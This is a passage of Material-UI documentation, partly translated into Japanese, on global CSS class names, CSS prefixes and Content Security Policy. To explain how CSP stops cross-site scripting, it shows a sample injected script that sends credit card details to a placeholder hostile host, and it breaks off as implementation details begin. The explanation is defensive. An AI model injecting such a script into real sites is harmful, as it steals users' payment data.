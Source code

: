 {{"demo": "pages/styles/advanced/GlobalClassName.js"}}

## Global CSS

### `jss-plugin-global`

The [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset. You can use it to define global class names.

{{"demo": "pages/styles/advanced/GlobalCss.js"}}

### ハイブリッド

You can also combine JSS generated class names with global ones.

{{"demo": "pages/styles/advanced/HybridGlobalCss.js"}}

## CSS prefixes

JSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/mui-org/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.

## コンテンツセキュリティポリシー（CSP）

### What is CSP and why is it useful?

Basically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### CSPの実装方法

In order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.
